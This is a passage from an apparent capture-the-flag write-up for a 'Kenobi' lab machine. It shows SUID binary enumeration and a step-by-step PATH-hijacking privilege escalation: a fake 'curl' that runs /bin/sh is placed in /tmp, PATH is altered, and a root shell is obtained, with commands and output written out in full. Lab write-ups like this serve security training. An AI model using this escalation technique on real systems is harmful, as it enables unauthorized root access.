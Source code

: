 ```sh
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
kenobi@kenobi:~$ 

```
  
One of this listed ones is interesting and not normal one.
  

<ins>Exploitations and path change</ins>
  
check out the /usr/bin/menu

```sh
strings /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig

```
  
> With that inforamtion we cknow the commands, which get used by this binary

<ins>Thing to do:</ins>  
  
1. Manipulate the "curl" command with something useful, that runs by root
2. change $PATH
3. excecute /usr/bin/menu with option "1"

```sh
kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# bash -i
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# cat /root/root.txt
```  
  